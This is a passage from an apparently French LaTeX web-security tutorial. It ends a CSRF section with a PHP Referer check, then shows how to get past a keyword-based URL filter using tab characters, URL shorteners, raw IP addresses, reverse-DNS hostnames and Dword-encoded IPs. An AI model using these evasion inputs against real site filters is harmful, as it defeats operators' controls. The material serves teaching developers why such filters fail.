
\includegraphics[width=\textwidth]{csrf4}
}}
\vspace{0.2cm}

\subsection{Protection CSRF par HTTP\_REFERER}

Il est bien entendu possible de se protéger contre ce type d'attaque, la manière la plus simple mais qui comporte un risque en cas de XSS sur le site est de vérifier l'origine de la requete alias le REFERER. On va donc changer un peu notre script précédent et rajouter ceci :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
if(\$\_SERVER['HTTP\_REFERER'] == "http://localhost/Hack/index3.php") \{\\
\hspace*{0.6cm}Some code...\\
\}
}}
\vspace{0.2cm}

Cette fois lorsque nous seront connecté et essayerons de nous connecter, nous arriverons sur le lien suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{csrf5}
}}
\vspace{0.2cm}


\newpage
\section{Filtrage - URL Evasion}
\subsection{Préambule}
Pour cette faille, je vais vous raconter une petite histoire pour vous mettre dans le contexte. Un jour, un de mes amis a claqué à ma porte pour me demander mon avis sur un de ses souhaits. Il voulait bloquer la possibilité aux utilisateurs d'utiliser la fonction lien du forum pour mettre des liens vers un autre forum. Il est donc venu me voir avec un code assez amusant qui filtrait automatiquement toutes les chaines contenant le domaine du site. C'est à cet instant que j'ai rigolé !\\ 
Une chose amusante avec l'Internet est qu'il est très facile d'oublier quelques choses, un petit détail qui pourrait permettre de faire ce que l'on souhaite justement interdire. Prenons, l'exemple suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{filter}
}}
\vspace{0.2cm}

Ici, le but du développeur est d'empêcher l'utilisateur d'entrer un lien venant de google. Comme de nombreuses personnes l'auraient certainement fait, on refuse toutes les chaines comportant le mot google sans tenir compte de la case. Ce script réalise donc l'opération attendue via la fonction strripost(). Il est donc normalement impossible de mettre le lien "www.google.fr". Hehe !

\subsection{Bypass de filtre URL par usage de tabulation}

Les navigateurs à ma grande surprise ont tendance à ne pas tenir compte des tabulations dans certaines balises. Il est donc possible de bypasser ce filtre en rentrant l'adresse de "google" avec une tabulation histoire de ne pas se faire detecter :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
https://www.goo	gle.fr
}}
\vspace{0.2cm}

Notons que cette manière de faire marche parfois avec un espace mais cela est plus rare. 

\subsection{Bypass de filtre URL par URL shorter}

Depuis quelques années et surtout depuis la grande utilisation de twitter, il existe de nombreuses manières de raccourcir un lien. Lorsque l'on procède ainsi, le lien est généralement complètement offusquer. Par exemple, on peux utiliser celui même de google (www.goo.gl) pour offusquer le lien de google. J'obtient le résultat suivant qui bypass le filtre :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
https://goo.gl/HVM91q
}}
\vspace{0.2cm}

Comme le terme google n'est pas contenu dans la chaine, on peut entrer ce lien.

\subsection{Bypass de filtre URL par IP}

En fait, il y a de nombreux moyens de décrire une URL, il est donc inutile de filtrer une url par un terme, comme on peux le voir ci-dessous :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
http://173.194.67.94
}}
\vspace{0.2cm}

Pour trouver l'adresse IP d'un site internet, rien de plus simple. Firebug est là pour ça :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{filter3}
}}
\vspace{0.2cm}

Toutes les adresses sur internet sont des points dans le réseau et comportent donc une adresse IP. Il en est de même pour le géant Google. On peux donc l'atteindre en entrant l'adresse ci-dessus.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{filter1}
}}
\vspace{0.2cm}

En cliquant sur le lien on arrive donc bien sur le lien que l'on souhaitait :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{filter2}
}}
\vspace{0.2cm}

\subsection{Bypass de filtre URL par l'adresse de la machine IP}

Une fonction bien pratique de windows n'est autre que NSLOOKUP. Cette fonction permet d'obtenir très rapidement le DNS (nom de domaine en français) ainsi que l'adresse de ce dernier. Généralement l'adresse obtenu n'a plus aucun rapport avec le lien de base, ce qui permet de passer certains filtres :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{filter4}
}}
\vspace{0.2cm}

On obtient donc une adresse : wi-in-f94.1e100.net\\
Cette dernière lorsque rentré dans un navigateur nous amène directement sur le site de google.fr et permet donc de passer encore une fois le filtre.

\subsection{Bypass de filtre URL par encodage Dword}

Cette manière de faire part du principe de l'encodage de l'ip et du langage de la machine. Une adresse IP peut etre écrite d'une autre manière. Dans l'exemple du chapitre précédent, on obtenait l'adresse IP (173.194.67.94) que l'on peut transformé en Dword :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
(173*256)+194)*256+67)*256+94 = 2915189598
}}
\vspace{0.2cm}

